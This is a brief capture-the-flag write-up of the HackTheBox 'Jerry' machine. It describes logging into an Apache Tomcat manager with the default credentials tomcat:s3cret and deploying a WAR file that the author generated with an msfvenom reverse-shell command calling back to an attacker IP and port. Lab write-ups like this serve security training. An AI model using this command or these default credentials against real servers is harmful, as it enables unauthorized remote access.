




# Jerry -- HackTheBox (write-up)

**Difficulty:** Easy / Beginner
**Box:** Jerry (HackTheBox)
**Author:** dsec
**Date:** 2025-11-09

---

## TL;DR

### Apache Tomcat with default creds `tomcat:s3cret`. Deployed a malicious WAR file for an admin shell.
---
## Target info

- Host: HackTheBox target
- Services discovered via nmap
---
## Enumeration







Neither of the initially found items applied or worked.

Found `/manager/html` -- HTTP login prompt.

---
## Initial foothold

Logged in with `tomcat:s3cret`. HackTricks **did not** include this credential -- found it on this list: <https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown>



Generated a malicious WAR file:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.133 LPORT=6969 -f war -o revshell.war
```

Uploaded the WAR file to the deploy section. `/revshell` appeared at the top of the application list. Clicked it and got an admin shell.

---
## Lessons & takeaways

- Always try default credentials -- especially on Tomcat manager interfaces
- HackTricks is great but not exhaustive; check multiple default credential lists
- WAR file deployment on Tomcat is a reliable foothold when you have manager access
---
